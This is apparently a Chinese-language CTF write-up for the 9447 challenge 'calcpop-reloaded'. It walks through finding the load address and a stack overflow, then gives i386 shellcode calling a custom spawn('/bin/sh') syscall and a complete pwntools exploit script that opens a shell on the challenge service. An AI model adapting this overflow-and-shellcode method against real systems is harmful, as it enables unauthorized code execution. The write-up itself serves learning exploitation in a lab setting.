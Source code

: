 ```yaml
---
title: 'Writeup-9447 CTF: calcpop-reloaded'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
share: true
---
```


*从这一题开始，9447 加上了 POW, 其实只要爆破就可以，这里就不放脚本了。（关于 POW, 有个叫 hashcash 的东西，挺有意思的）*

这道题我没有在比赛期间做出来。当时完全没有逆向 load address 未知的二进制的经验，什么都干不了。后来简单看了别人的 writeup，在只知道逆向方法的情况下重新做出了这题。前后大概还是花了七八小时（我好渣...），硬着头皮写篇 writeup 记录一下。

### Load Address
找 load address 的过程大概是先用 radare 打开，然后翻反汇编代码，可以找到`mov eax, 0x1007a7`这类代码，大概可以猜出 load address 在 0x100000.

用 IDA 打开，填好 load offset, 开始调试。可以猜出 main 函数(?)的位置大概在 0x1008bc.

### Overflow
接下来找溢出点。可以看到 0x001008EE 处调用了输入函数，分配栈空间是 0x98, 但是传递了一个大概是 size 的参数，值为 0x100. 存在溢出。

这题和 calcpop 有一点不同的是，calcpop 中输入 exit 会直接退出 main 函数，这题输入 exit 会调用`shutdown()`之类的函数，没细看，效果就是不会再有输出了。这道题退出 main 函数的方法是，正确输入，让计算结果为 201527, 程序会输出彩蛋信息，然后退出 main 函数。

接下来就是怎么溢出了，先看 main 函数入口和出口处的栈变化：
{% highlight asm %}
# entry:
lea     ecx, [esp-4]
and     esp, 0FFFFFFF0h
push    dword ptr [ecx-4]
push    ebp
mov     ebp, esp
push    edi
push    esi
push    ebx
push    ecx

# exit:
lea     esp, [ebp-10h]
xor     eax, eax
pop     ecx
pop     ebx
pop     esi
pop     edi
pop     ebp
lea     esp, [ecx-4]
retn
{% endhighlight %}

溢出到保存 ecx 的位置，使 ecx - 4 指向存有 shellcode 地址的栈位置，然后 ret 就能跳转到 shellcode.

### Shellcode
这题怎么写 shellcode 也是一个难点，因为系统是 9447 写的，不能直接用 execv 系统调用。所幸的是本题的系统调用功能都是能从一些字符串上看出来的。比如`read(%d %x %d)`, `write(%d %x %d)`之类。strings 一下可以看到`spawn(%x %x %d)`，我就猜测这个是类似 execv 的系统调用。可是参数不明确，特别是第三个参数。试了几次，发现用`spawn("/bin/sh", "/bin/sh", 1)`这样的参数是可以成功的，第三个参数 1 具体是什么含义，我也没搞明白。

用 pwntool 生成的 shellcode 如下:
{% highlight asm %}
# push '/bin/sh\x00'
push 0x1010101
xor dword ptr [esp], 0x169722e
push 0x6e69622f
mov edi, esp

push 0x1
push edi
push edi
push 0xdeadbeef  # junk
mov ebx, 302125832
xor ebx, 0x12121212
call ebx  # spawn(%x, %x, %d)
{% endhighlight %}

### exp.py

可以用 redos 中的 level1 本地调试。
{% highlight python %}
#!/usr/bin/env python
# coding=utf8

from pwn import p32, remote, context, asm, shellcraft

import sys

context.arch = 'i386'

p = remote('localhost', 9447)

p.recvuntil('Welcome to calc.exe\n')

p.sendline('get_buf_addr')
buf_addr = int(p.recvline().split()[-1], 16)
ecx_set = buf_addr + 0x98 - 16 - 4 + 4
shellcode_addr = buf_addr + 0x98 - 16 - 4 + 4*2 + 0x20

shellcode_str = (
    '''
    {}
    mov edi, esp
    {}
    push edi
    push edi
    push 0xdeadbeef  /* junk */
    mov ebx, {}
    xor ebx, 0x12121212
    call ebx  # spawn(%x, %x, %d)
    '''.format(shellcraft.i386.pushstr('/bin/sh'),
               shellcraft.i386.push(1),
               0x10011a ^ 0x12121212)
)
print shellcode_str
shellcode = asm(shellcode_str)

payload = 'A' * (0x98 - 16 - 4) + \
    p32(shellcode_addr) + \
    p32(ecx_set) + 'A' * 0x20 + \
    shellcode

if '\n' in payload or '\x00' in payload:
    print 'newline or zero byte found in payload'
    sys.exit(1)

p.sendline(payload)
p.sendline("201527 0")

p.interactive()
{% endhighlight %}
